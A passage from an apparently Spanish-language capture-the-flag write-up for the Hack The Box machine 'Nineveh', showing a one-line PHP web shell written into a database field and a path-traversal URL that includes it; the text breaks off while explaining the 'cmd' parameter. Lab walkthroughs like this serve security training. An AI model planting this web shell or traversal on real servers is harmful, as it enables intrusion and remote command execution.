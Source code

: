 Posteriormente, en **Type** seleccionamos **TEXT**, en **Field** insertamos nuestro código php `<?php system($_REQUEST["cmd"]) ?>` y le damos en **Create**

![""](/assets/images/htb-nineveh/nineveh-web16.png)

Ya tenemos nuestro archivo php que si le damos en **Return** nos mostrará información sobre nuestro archivo y lo que nos interesa es la ruta `/var/tmp/k4miyo.php` para que podamos apuntar desde el otro sitio web, que es lo que haremos:

- `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php`

![""](/assets/images/htb-nineveh/nineveh-web17.png)

Ahora para poder ejecutar comandos, haremos uso de la variable `cmd` y hay que tener en cuentra que para agregarla a la dirección URL lo haremos con el símbolo `&` debido a el `?` ya está siendo usado:
